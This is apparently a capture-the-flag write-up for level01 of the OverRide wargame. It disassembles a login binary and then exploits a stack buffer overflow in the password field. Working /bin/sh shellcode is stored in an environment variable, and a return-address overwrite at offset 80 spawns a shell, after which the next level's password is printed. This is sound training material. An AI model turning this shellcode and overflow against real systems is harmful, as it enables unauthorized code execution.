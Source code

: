 # level01

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```console
level01@OverRide:~$ checksec --file ./level01
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level01
```

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x080484d0 <+0>:     push   ebp
   0x080484d1 <+1>:     mov    ebp,esp
   0x080484d3 <+3>:     push   edi
   0x080484d4 <+4>:     push   ebx
   0x080484d5 <+5>:     and    esp,0xfffffff0
   0x080484d8 <+8>:     sub    esp,0x60
   0x080484db <+11>:    lea    ebx,[esp+0x1c]
   0x080484df <+15>:    mov    eax,0x0
   0x080484e4 <+20>:    mov    edx,0x10
   0x080484e9 <+25>:    mov    edi,ebx
   0x080484eb <+27>:    mov    ecx,edx
   0x080484ed <+29>:    rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>:    mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:    mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:    call   0x8048380 <puts@plt>
   0x08048503 <+51>:    mov    eax,0x80486df
   0x08048508 <+56>:    mov    DWORD PTR [esp],eax
   0x0804850b <+59>:    call   0x8048360 <printf@plt>
   0x08048510 <+64>:    mov    eax,ds:0x804a020
   0x08048515 <+69>:    mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:    mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:    mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:    call   0x8048370 <fgets@plt>
   0x0804852d <+93>:    call   0x8048464 <verify_user_name>
   0x08048532 <+98>:    mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:   je     0x8048550 <main+128>
   0x0804853d <+109>:   mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:   call   0x8048380 <puts@plt>
   0x08048549 <+121>:   mov    eax,0x1
   0x0804854e <+126>:   jmp    0x80485af <main+223>
   0x08048550 <+128>:   mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:   call   0x8048380 <puts@plt>
   0x0804855c <+140>:   mov    eax,ds:0x804a020
   0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:   lea    eax,[esp+0x1c]
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>
   0x08048579 <+169>:   lea    eax,[esp+0x1c]
   0x0804857d <+173>:   mov    DWORD PTR [esp],eax
   0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:   mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:   je     0x80485aa <main+218>
   0x08048597 <+199>:   mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:   call   0x8048380 <puts@plt>
   0x080485a3 <+211>:   mov    eax,0x1
   0x080485a8 <+216>:   jmp    0x80485af <main+223>
   0x080485aa <+218>:   mov    eax,0x0
   0x080485af <+223>:   lea    esp,[ebp-0x8]
   0x080485b2 <+226>:   pop    ebx
   0x080485b3 <+227>:   pop    edi
   0x080485b4 <+228>:   pop    ebp
   0x080485b5 <+229>:   ret
End of assembler dump.
```

```gdb
gdb-peda$ pdisas verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:     push   ebp
   0x08048465 <+1>:     mov    ebp,esp
   0x08048467 <+3>:     push   edi
   0x08048468 <+4>:     push   esi
   0x08048469 <+5>:     sub    esp,0x10
   0x0804846c <+8>:     mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:    call   0x8048380 <puts@plt>
   0x08048478 <+20>:    mov    edx,0x804a040
   0x0804847d <+25>:    mov    eax,0x80486a8
   0x08048482 <+30>:    mov    ecx,0x7
   0x08048487 <+35>:    mov    esi,edx
   0x08048489 <+37>:    mov    edi,eax
   0x0804848b <+39>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:    seta   dl
   0x08048490 <+44>:    setb   al
   0x08048493 <+47>:    mov    ecx,edx
   0x08048495 <+49>:    sub    cl,al
   0x08048497 <+51>:    mov    eax,ecx
   0x08048499 <+53>:    movsx  eax,al
   0x0804849c <+56>:    add    esp,0x10
   0x0804849f <+59>:    pop    esi
   0x080484a0 <+60>:    pop    edi
   0x080484a1 <+61>:    pop    ebp
   0x080484a2 <+62>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ pdisas verify_user_pass
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:     push   ebp
   0x080484a4 <+1>:     mov    ebp,esp
   0x080484a6 <+3>:     push   edi
   0x080484a7 <+4>:     push   esi
   0x080484a8 <+5>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:     mov    edx,eax
   0x080484ad <+10>:    mov    eax,0x80486b0
   0x080484b2 <+15>:    mov    ecx,0x5
   0x080484b7 <+20>:    mov    esi,edx
   0x080484b9 <+22>:    mov    edi,eax
   0x080484bb <+24>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:    seta   dl
   0x080484c0 <+29>:    setb   al
   0x080484c3 <+32>:    mov    ecx,edx
   0x080484c5 <+34>:    sub    cl,al
   0x080484c7 <+36>:    mov    eax,ecx
   0x080484c9 <+38>:    movsx  eax,al
   0x080484cc <+41>:    pop    esi
   0x080484cd <+42>:    pop    edi
   0x080484ce <+43>:    pop    ebp
   0x080484cf <+44>:    ret
End of assembler dump.
```


## Exploit

A first read of ASM code allows us to see that function `verify_user_name` compares the user name to `dat_wil` and
function `verify_user_pass` compares password to `admin`. However, when you try with `admin` it doesn't work.

Looking closely to the code tell us that finding the password won't help us! It doesn't call any `system` function for
example. Thus, we have to provide our shellcode.

After several tests, we can find that the password field segfault with an offset of `80` (thanks to this
[website](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)). In order to store our
shellcode, we can use environment variables. We have all the keys to exploit this level, let's go!

First, add the shellcode to environment variables:

```console
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
level01@OverRide:~$ env | grep SHELLCODE
SHELLCODE=��������������������������������������������������j
                                                             X�Rh//shh/bin��1�̀
```

Thanks to `gdb` we can find its address:

```gdb
[...]
0024| 0xffffd6b8 --> 0xffffd74c --> 0xffffd87e ("SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀")
[...]
```

Here we have `0xffffd87e` but it could be different. Let's add `20` to this address to and into the nop sled:
`0xffffd892`.

And execute the exploit with:

```console
level01@OverRide:~$ (python -c 'print "dat_wil" + "\n" + "A" * 80 + "\x92\xd8\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
